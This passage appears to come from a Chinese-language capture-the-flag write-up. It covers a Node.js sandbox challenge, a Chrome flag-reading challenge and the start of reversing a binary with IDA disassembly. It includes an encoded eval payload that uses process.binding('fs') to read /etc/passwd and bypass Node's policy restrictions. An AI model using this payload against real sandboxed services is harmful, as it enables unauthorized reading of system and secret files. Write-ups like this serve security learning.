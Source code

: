 行行行，要求真多，0600 改成 384 总好了吧：

```json
{"statusCode":500,"code":"1","error":"Internal Server Error","message":"Command failed: /usr/local/bin/node --experimental-policy=policy.json --policy-integrity=sha256-1NvUvTeQqHoo+XJv7zUAobD/VEaIGQ8CB3471GP2isY= runner.js -e=ZXZhbCh1bmVzY2FwZSgvJTJhJTJhJTJmIGJ1ZmZlciUyMCUzZCUyMCU0MnVmZmVyJTJlYWxsb2MlNTVuc2FmZSUyODgxOTIlMjklM2IlMjBwcm9jZXNzJTJlYmluZGluZyUyOCUyN2ZzJTI3JTI5JTJlcmVhZCUyOHByb2Nlc3MlMmViaW5kaW5nJTI4JTI3ZnMlMjclMjklMmVvcGVuJTI4JTI3JTJmZXRjJTJmcGFzc3dkJTI3JTJjJTIwMCUyYyUyMDM4NCUyYyUyMDAlMmMlMjAwJTI5JTJjJTIwYnVmZmVyJTJjJTIwMCUyYyUyMDQwOTYlMmMlMjAwJTJjJTIwMCUyYyUyMDAlMjklM2IlMjBidWZmZXIgJTJmJTJhLykrdW5lc2NhcGUoLyUyYS8pKQ==\n(node:232) ExperimentalWarning: Policies are experimental.\n(Use `node --trace-warnings ...` to show where the warning was created)\nundefined:1\n/**/ buffer = Buffer.allocUnsafe(8192); process.binding('fs').read(process.binding('fs').open('/etc/passwd', 0, 384, 0, 0), buffer, 0, 4096, 0, 0, 0); buffer /*//*/\n            ^\n\nReferenceError: buffer is not defined\n    at eval (eval at <anonymous> (eval at <anonymous> (file:///app/backend/runner.js:9:17)), <anonymous>:1:13)\n    at eval (eval at <anonymous> (file:///app/backend/runner.js:9:17), <anonymous>:1:1)\n    at file:///app/backend/runner.js:9:17\n    at ModuleJob.run (node:internal/modules/esm/module_job:193:25)\n    at async Promise.all (index 0)\n    at async ESMLoader.import (node:internal/modules/esm/loader:518:24)\n    at async loadESM (node:internal/process/esm_loader:102:5)\n    at async handleMainPromise (node:internal/modules/run_main:66:12)\n\nNode.js v19.0.1\n"}
```

哦，要 `var buffer`。改了之后就能吐出 flag 的 bytes 了。

### Flag 2：Chrome 里的 flag

首先，不可能是最新稳定版 Chrome 的 CVE，那么肯定 flag 在页面、标题、cookie 这几个地方上。我用的是编码之后的 `document.documentElement.innerHTML` 读的。

## TTOWRSS

我还记得那个白天，从凌晨熬到天亮，当我发现这个 sigtrap 的 handler 居然干了这样的事情的时候，感觉自己整个脑子都「轰」得一下。

首先……拖 IDA，然后发现整个程序怪怪的，`main()` 似乎长得不太正常，找到了读取输入的逻辑，但是它的汇编居然长成这样：

```asm
loc_1176:                               ; CODE XREF: .text:0000000000001145↑j
.text:0000000000001176                 lea     rdi, aGoodJob   ; "Good job!"
.text:000000000000117D                 jz      short loc_1154
.text:000000000000117F                 test    al, al
.text:0000000000001181                 call    sub_13C5
.text:0000000000001186                 mov     rdi, rbp
.text:0000000000001189                 call    ___isoc99_scanf
.text:000000000000118E                 mov     rsi, rbp
.text:0000000000001191                 xor     eax, eax
.text:0000000000001193                 lea     rdi, a250s      ; "%250s"
.text:000000000000119A                 call    ___printf_chk
.text:000000000000119F                 mov     rbp, rsp
.text:00000000000011A2                 xor     eax, eax
.text:00000000000011A4                 mov     [rsp+108h], rax
.text:00000000000011AC                 mov     rax, fs:28h
.text:00000000000011B5                 sub     rsp, 110h
.text:00000000000011BC                 mov     edi, 1
.text:00000000000011C1                 lea     rsi, aPassword  ; "PASSWORD: "
.text:00000000000011C8                 push    rbp
.text:00000000000011C9                 mov     rsi, 100000000h
```
